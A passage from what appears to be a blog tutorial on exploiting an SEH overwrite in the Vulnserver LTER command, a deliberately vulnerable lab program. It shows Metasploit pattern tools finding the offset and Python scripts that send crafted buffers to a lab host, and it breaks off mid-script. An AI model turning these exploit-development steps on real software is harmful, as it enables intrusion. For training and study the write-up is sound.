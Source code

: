 <div class="imgblock">

![Crash 2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331202/blog/vulnserver-lter-seh/crash2_kwxlzr.gif)

</div>

Well, it seems we’re facing an SEH overwrite. Please, check [this
post](../vulnserver-gmon/) for an explanation of SEH.

OK, we need to figure out the offset by:

1. Creating a cyclic pattern.

2. Checking the offset of the pattern found in the SEH handler.

Let’s do that:

``` console
$ msf-pattern_create -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac...
```

Update our exploit:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'<inset pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And run it:

<div class="imgblock">

![Pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331204/blog/vulnserver-lter-seh/pattern1_drj3ub.gif)

</div>

The SEH handler was overwritten with `356F4534`. We can check the offset
using `pattern_offset.rb`:

``` console
$ msf-pattern_offset -q 356F4534
[*] Exact match at offset 3554
```

That means that the SEH handler was overwritten starting at byte `3554`.
Let’s update our exploit to reflect that offset:

``` python
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
```